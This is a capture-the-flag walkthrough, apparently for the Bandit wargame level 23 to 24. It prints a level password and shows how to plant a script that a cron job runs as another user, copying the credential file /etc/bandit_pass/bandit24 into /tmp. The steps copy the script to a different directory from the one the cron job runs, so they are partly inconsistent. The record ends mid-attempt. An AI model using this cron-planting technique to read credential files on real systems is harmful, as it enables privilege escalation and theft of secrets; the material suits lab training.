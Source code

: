🏁 Password:

```
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

---

✅ Level 23 → Level 24

🧠 Objective: A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

You must create a script and a world-writable file that gets written to by the script.

🛠 Steps:

```
echo 'cat /etc/bandit_pass/bandit24 > /tmp/flag24' > /tmp/mauz_script.sh
chmod +x /tmp/mauz_script.sh

cp /tmp/mauz_script.sh /var/spool/bandit24/mauzy.sh
```

📄 Wait and check:

```
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ ls -al
ls: cannot open directory '.': Permission denied

bandit23@bandit:/var/spool/bandit24/foo$ ls -al
ls: cannot open directory '.': Permission denied

bandit23@bandit:/var/spool/bandit24/foo$ cd ..
bandit23@bandit:/var/spool/bandit24$ ls -al
total 12
dr-xr-x---  3 bandit24 bandit23 4096 Apr 10 14:23 .
drwxr-xr-x  5 root     root     4096 Apr 10 14:23 ..
drwxrwx-wx 43 root     bandit24 4096 Jun  4 15:13 foo

bandit23@bandit:/var/spool/bandit24$ mktemp -d
/tmp/tmp.Sn3V5m9XNG
```